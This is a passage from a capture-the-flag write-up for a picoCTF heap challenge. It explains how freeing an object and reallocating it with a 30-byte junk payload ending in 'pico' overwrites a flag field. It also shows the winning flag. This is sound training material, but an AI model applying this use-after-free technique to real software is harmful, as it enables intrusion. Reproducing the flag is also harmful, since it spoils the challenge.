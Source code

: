 As we can see, the first 30B of this payload should consist of junk bytes to fill up the three 10B char arrays. Then, since the win condition requires that `flag` is equals to `pico`:

```c
void check_win() {
  if(!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flage for u :(\n");
    fflush(stdout);
  }
  // Call function in struct
}
```

We therefore need to append `pico` to the end of our payload, to overwrite the `flag` variable.

```text
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5
...
Enter your choice: 2
Size of object allocation: 35
Data for flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico
...
Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x10032ce  ->   pico
+-------------+-----------+
```

Since the `flag` variable has been overwritten, we have achieved the win condition.

```text
Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_a7381726}
```
